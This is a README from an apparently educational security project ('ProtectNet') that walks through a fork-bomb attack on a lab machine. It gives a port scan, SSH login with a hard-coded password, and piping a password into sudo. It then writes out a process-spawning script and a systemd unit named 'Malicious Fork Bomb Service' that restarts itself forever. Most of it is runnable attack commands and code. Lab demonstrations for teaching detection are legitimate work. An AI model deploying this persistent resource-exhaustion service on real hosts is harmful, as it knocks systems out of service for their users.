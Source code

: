 # Fork Bomb Demo

This demo showcases the setup and execution of a fork bomb on a remote machine. The fork bomb script is installed as a systemd service and runs under the demo user.

## Prerequisites

- SSH access to the target machine (ST24-401D) with user `cs401`.
- `sudo` privileges on the target machine.
- Basic understanding of systemd services and bash scripting.

## Execute Script for automatic execution

Run the demo.sh script without sudo, and it will execute the attack itself.

```bash
~/ProtectNet/demo/demo.sh
```

## Semi-manual execution

In case you want to run the attack on your own in live, all you need to do is run the following steps:

1. **Run a Port Scan**

    Perform a port scan on the target machine to identify open ports.

    ```bash
    sudo nmap -p 1-30 10.10.248.158
    ```
1. **SSH into the Target Machine as the Demo User**

   Switch to the demo user on the target machine.

   ```bash
   sshpass -p 1 ssh -t demo@10.10.248.158
   ```
1. **Execute Attack Script**

   Run the attack script with sudo privileges.

   ```bash
   echo 1 | sudo -S /home/cs401/attack.sh
   ```
   
## Explanation - Steps in Script

1. **Login to the Target Machine**

    Use SSH to log in to the target machine with the `cs401` user.

    ```bash
    ssh cs401@ST24-401D
    ```

1. **Run a Port Scan**

    Perform a port scan on the target machine to identify open ports.

    ```bash
    sudo nmap -p 1-30 10.10.248.158
    ```

1. **SSH into the Target Machine as the Demo User**

    Switch to the demo user on the target machine.

    ```bash
    ssh demo@10.10.248.158
    ```

1. **Create the Fork Bomb Script**

    Create a bash script that continuously spawns child processes.

    ```bash
    sudo touch /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo tee /usr/local/bin/fork_bomb.sh > /dev/null << EOF
    #!/bin/bash

    create_child_process() {
        sleep 9999 &
        child_pid=\$!
        echo "Created child process with PID: \$child_pid"
    }

    trap 'kill \$(jobs -p); exit' SIGINT SIGTERM

    while true
    do
        for i in \$(seq 1 60);
        do
            create_child_process
        done
        sleep 30
    done
    EOF
    ```

1. **Make the Script Executable and Set Ownership**

    Grant execute permissions to the script and change its ownership to the demo user.

    ```bash
    sudo chmod +x /usr/local/bin/fork_bomb.sh
    ```

    ```bash
    sudo chown demo: /usr/local/bin/fork_bomb.sh
    ```

1. **Create a systemd Service for the Fork Bomb**

    Set up a systemd service to manage the fork bomb script.

    ```bash
    sudo touch /etc/systemd/system/fork.service
    ```

    ```bash
    sudo tee /etc/systemd/system/fork.service > /dev/null << EOF
    [Unit]
    Description=Malicious Fork Bomb Service
    After=network.target

    [Service]
    ExecStart=/usr/local/bin/fork_bomb.sh
    ExecStop=/bin/kill -s SIGTERM \$MAINPID
    Restart=always
    User=demo
    KillMode=process
    Type=simple

    [Install]
    WantedBy=multi-user.target
    EOF
    ```

1. **Reload systemd and Start the Fork Bomb Service**

    Reload systemd to recognize the new service and then start the fork bomb.

    ```bash
    sudo systemctl daemon-reload
    ```

    ```bash
    sudo systemctl start fork.service
    ```
